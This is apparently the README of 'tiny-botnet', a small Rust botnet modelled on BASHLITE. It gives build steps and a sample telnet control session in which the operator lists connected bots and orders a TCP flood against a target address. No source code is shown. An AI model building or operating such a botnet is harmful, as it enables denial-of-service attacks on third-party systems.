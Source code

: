 # tiny-botnet

Simple botnet example written in rust, loosely inspired by BASHLITE, (try to) use at your own risk!

## features
* Auto reconnection
* Async networking on server via smol and non blocking networking on client using mio
* Control via telnet with password authentication
* Basic TCP flood implementation

## running/compiling

Rename the `.env.sample` file to `.env` and edit the variables to your liking, then either `cargo run --bin client/server` to run the client or the server or `cargo build` to build both binaries with the provided environment variables

## control

Connect to `SERVER_CONTROLLER_LISTENER_ADDR` via telnet and enter the `PASSWORD`

```
$ telnet 192.168.1.46 6667
Trying 192.168.1.46...
Connected to 192.168.1.46.
Escape character is '^]'.
PASS: MYPASSWORD

  _   _                   _           _              _
 | |_(_)_ __  _   _      | |__   ___ | |_ _ __   ___| |_
 | __| | '_ \| | | |_____| '_ \ / _ \| __| '_ \ / _ \ __|
 | |_| | | | | |_| |_____| |_) | (_) | |_| | | |  __/ |_
  \__|_|_| |_|\__, |     |_.__/ \___/ \__|_| |_|\___|\__|
              |___/
1 client(s) online!
-> help
Command list:
ls                           - Lists connected clients
attack <ip:port> <seconds>   - Starts a TCP Flood attack from all clients
-> ls
ip: 1.2.3.4 uuid: AA:BB:CC:DD:EE:FF last_ping: 4 secs ago
-> attack 4.5.6.7:1234 100
...
```